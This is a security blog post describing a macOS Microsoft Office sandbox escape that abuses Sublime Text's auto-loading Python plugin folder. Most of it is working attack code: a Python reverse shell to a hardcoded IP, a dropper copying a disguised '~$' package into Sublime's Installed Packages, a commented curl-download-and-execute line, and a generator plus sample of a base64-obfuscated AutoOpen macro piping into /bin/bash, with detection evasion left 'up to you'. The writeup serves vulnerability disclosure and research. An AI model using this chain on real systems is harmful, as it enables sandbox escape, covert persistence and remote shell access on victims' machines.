 ```yaml
---
title: "A Sublime Office Sandbox Bypass"
date: 2020-10-21T19:44:32-07:00
---
```


If an unwitting user runs a malicious macro-enabled document on a macOS system that has Sublime Text installed, an attacker can seamlessly escape the Office sandbox.

In effect
1. The MS Office sandbox allows writing files to arbitrary locations as long as they begin with `~$`, with some exceptions
2. The Sublime Text editor automatically loads (outside the sandbox) Python plugins from a user writable file path

After reading Patrick Wardle's [Office Drama on macOS](https://objective-see.com/blog/blog_0x4B.html) which outlined a persistence method leveraging a sandbox escaped discovered by Adam Chester (see [Escaping the Microsoft Office Sandbox](https://objective-see.com/blog/blog_0x35.html)), I did some rudimentary experimenting. Recent patches have precluded directly writing to `LaunchAgents` or `Application Scripts` but files can still be written to other user writable paths as long as they start with `~$`.

There are likely a plethora of creative options but having Sublime Text installed I found a nice option for escaping the Office sandbox. Feel free to skip to the end if you're not interested in the Sublime Plugin aspect.

I'm certainly not the first to leverage Sublime for persistence. Prior art by [theevilbit](https://theevilbit.github.io/posts/macos_persisting_through-application_script_files/) is worth a quick read and that post goes into persisting in Python imports and others applications. Leo Pitt also outlined its usage with JXA and Apfell [here](https://posts.specterops.io/persistent-jxa-66e1c3cd1cf5). That post also covers some good detection method as well.

## Sublime Text Packages
Sublime leverages Python for its plugin ecosystem. If you have the permissions to edit files in `C:\Program Files\`, you can simply edit `sublime.py` or `sublime_plugin.py` for your persistence needs. When Sublime next starts, your code will run. If Sublime is already running, you can call `c:\Program Files\Sublime Text 3\subl.exe <sublime pid>` and it will reload those files.

But maybe you can't write to `C:\Program Files` or want to keep things a bit more covert. If you can write to `%APPDATA%\Sublime Text 3\Packages\` or `$HOME/Library/Application Support/Sublime Text 3/Packages/` you can create a plugin to help you out.

In the Packages directory, create a file `package-control.py` or other innocuously named file. It can be any Python code, but if you want to play nice with Sublime, the following template will work.
```python
import sublime, sublime_plugin, os;

def plugin_loaded():
  os.system('open -a /Applications/Calculator.app')
```
This creates and automatically loads the new plugin. Newer versions appear to execute the plugin the moment it's saved but older versions may need reloaded with `subl` or `subl.exe` commands with the `-b` option to run in the background.

### Creating Binary Packages
If you would like to keep your Python persistence one level beyond prying eyes, create a `.sublime-package` file, which is basically a zip file of python bytecode. [Package Control](https://packagecontrol.io/) is the package manager for Sublime Text and will do this for you. To create a new package, first Install Package Control: `Cmd + Shift + P` > `Install Package Control`.

Package Control expects a folder under Packages so create that first.

`mkdir ~/Library/Application Support/Sublime Text 3/Packages/legitimate`

Then add your benign python code to that folder.

```bash
cat > ~/Library/Application Support/Sublime Text 3/Packages/legitimate.py << EOF
import sublime, sublime_plugin, socket, subprocess, os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("172.16.1.1",8088));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
EOF
```
Now in Sublime Text, `Ctrl + Shift + P` > Create Package > legitimate > Default

And your new package file will be at `~/Desktop/test.sublime-package`.

This file can now be copied to `~/Library/Application Support/Sublime Text 3/Installed Packages/` or `%APPDATA%\Sublime Text 3\Installed Packages\` where Sublime will automatically pick it up and run your code.

> Note: I did run into some issues with Package Control not compiling my code on macOS, but manually compiling before creating the package seemed to get things working.
> ```
> % cd ~/Library/Application\ Support/Sublime\ Text\ 3/Packages/legitimate
> % python -m compileall legitimate.py
> % rm legitimate.py #YMMV```

## Macros
So how do we leverage all that to seamlessly escape the Office sandbox? The following code snippet is sufficient to have Sublime execute Python of our choosing outside the sandbox. Or rather than the code snippet, copy the binary sublime-package file to the `Installed Packages` to provide some obfuscation.

```python
import os

forsublime = '''
import os
os.system('open -a /Applications/Calculator.app')
#os.system('curl example.com/malware' && chmod +x malware && ./malware')
'''

# the above is saved to the Office sandbox
with open('legitimatefile.txt', 'w') as f:
	f.write(forsublime)

# and we copy it to Sublime's plugin folder
os.system("cp legitimatefile.txt /Users/$USER/Library/Application Support/Sublime Text 3/Installed Packages/~\$legitimate_plugin.sublime-package")

# if Sublime isn't running, help the user out
os.system("open -a /Application/Sublime Text.app")
```

And the following helper function makes it easy to drop that into a macro.

```python
import base64

e = base64.b64encode(abovepythoncode)
p = "echo \"import base64, exec(base64.b64decode('{}'));\" | /usr/bin/python &".format(e)
out = base64.b64encode(p)
n = 42
macro = []

for i in range(0,len(out), n):
    if i == 0:
        macro.append("str = \"%s\"" % out[i:i+n])
    else:
        macro.append("str = str + \"%s\"" % out[i:i+n])

print('''Sub AutoOpen()
Dim Str
{}
MacScript "do shell script ""echo \\"" " & Str & "\\"" | /usr/bin/base64 -D | /bin/bash"" "
End Sub
''').format("\n".join(macro))

```

Leaving you with something like the following. AV and EDR avoidance obviously up to you.
```
Sub AutoOpen()
Dim Str
str = "ZWNobyAiaW1wb3J0IGJhc2U2NCBhcyBiLCBzeXM7IG"
str = str + "V4ZWMoYi5iNjRkZWNvZGUoJ2ltcG9ydCBvczsgb3Mu"
str = str + "c3lzdGVtKCJvcGVuIGh0dHBzOi8vd3d3LnlvdXR1Ym"
str = str + "UuY29tL3dhdGNoP3Y9b0hnNVNKWVJIQTA7IG9wZW4g"
str = str + "aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj"
str = str + "1vSGc1U0pZUkhBMDtvcGVuIGh0dHBzOi8vd3d3Lnlv"
str = str + "dXR1YmUuY29tL3dhdGNoP3Y9b0hnNVNKWVJIQTA7Ii"
str = str + "knKSk7IiB8IHB5dGhvbiAgJg=="
MacScript "do shell script "" echo \"" " & Str & " \"" | /usr/bin/base64 -D | /bin/bash"" "
End Sub
```

Assuming that macro was run, the attacker is receives a shell but one restricted to the Office sandbox. In the following screenshot you see access to `/tmp/` is not permitted, and any attempt to access user directories is met with the same message.

{{< figure src="/img/sublime-sandbox.png">}}

But once we copy our malicious Sublime package to the Installed Packages directory, we immediately see another reverse shell come in, this time without the sandbox restrictions.

{{< figure src="/img/sublime-out-of-the-sandbox.png">}}